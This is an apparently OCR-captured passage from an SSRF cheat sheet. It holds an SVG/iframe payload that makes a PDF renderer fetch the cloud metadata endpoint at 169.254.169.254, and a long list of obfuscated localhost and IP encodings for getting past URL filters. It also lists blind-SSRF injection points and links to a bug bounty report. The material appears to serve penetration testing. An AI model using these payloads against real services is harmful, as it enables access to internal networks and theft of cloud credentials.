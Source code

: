             0x7f.0x1.0x0.0x1
            0x7f.0x1.0x1
            
            # Blind SSRF
            - Review Forms
            - Contact Us
            - Password fields
            - Contact or profile info (Names, Addresses)
            - User Agent
            
            # SSRF through video upload
            # https://hackerone.com/reports/1062888
            # https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
            
            # SSRF in pdf rendering
            <svg xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" class="highcharts-root" width="800" height="500">
                <g>
                    <foreignObject width="800" height="500">
                        <body xmlns="http://www.w3.org/1999/xhtml">
                            <iframe src="http://169.254.169.254/latest/meta-data/" width="800" height="500"></iframe>
                        </body>
                    </foreignObject>
                </g>
            </svg>
            ```
            
        - Bypasses
            
            ```jsx
            http://%32%31%36%2e%35%38%2e%32%31%34%2e%32%32%37
            http://%73%68%6d%69%6c%6f%6e%2e%63%6f%6d
            http://////////////site.com/
            http://0000::1:80/
            http://000330.0000072.0000326.00000343
            http://000NaN.000NaN
            http://0177.00.00.01
            http://017700000001
            http://0330.072.0326.0343
            http://033016553343
            http://0NaN
            http://0NaN.0NaN
            http://0x0NaN0NaN
            http://0x7f000001/
            http://0xd8.0x3a.0xd6.0xe3
            http://0xd8.0x3a.0xd6e3
            http://0xd8.0x3ad6e3
            http://0xd83ad6e3
            http://0xNaN.0xaN0NaN
            http://0xNaN.0xNa0x0NaN
            http://0xNaN.0xNaN
            http://127.0.0.1/status/
            http://127.1/
            http://2130706433/
            http://216.0x3a.00000000326.0xe3
            http://3627734755
            http://[::]:80/